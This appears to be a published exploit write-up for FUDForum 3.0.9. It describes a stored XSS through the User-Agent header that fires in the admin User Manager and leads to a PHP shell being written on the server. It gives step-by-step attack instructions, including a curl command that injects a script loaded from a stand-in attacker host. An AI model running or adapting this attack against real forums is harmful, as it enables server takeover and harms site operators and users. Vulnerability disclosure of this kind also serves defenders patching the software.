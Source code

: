 # FUDforum-XSS-RCE
FUDForum 3.0.9 - XSS / Remote Code Execution

// Exploit Title         : FUDForum 3.0.9 - XSS / Remote Code Execution
// Date                  : 10/26/19
// Exploit Author        : liquidsky (JMcPeters)
// Vulnerable Software   : FUDForum 3.0.9
// Vendor Homepage       : http://fudforum.org/forum/
// Version               : 3.0.9
// Software Link         : https://sourceforge.net/projects/fudforum/
// Tested On             : Windows / mysql / apache
// Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
// CVE                   : TBD
//
// Greetz : wetw0rk, Fr13ndz, offsec
//
// Description: FUDForum 3.0.9 is vulnerable to XSS via the user-agent request header.
// This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
// When the admin visits the user information under "User Manager" in the control panel the payload will execute.
// This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 
//
// Notes: 
//
// 1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
//    This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.
//
// 2. Send the XSS payload below (from an IP associated with an account) / host the script:
// curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php
//
// 3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
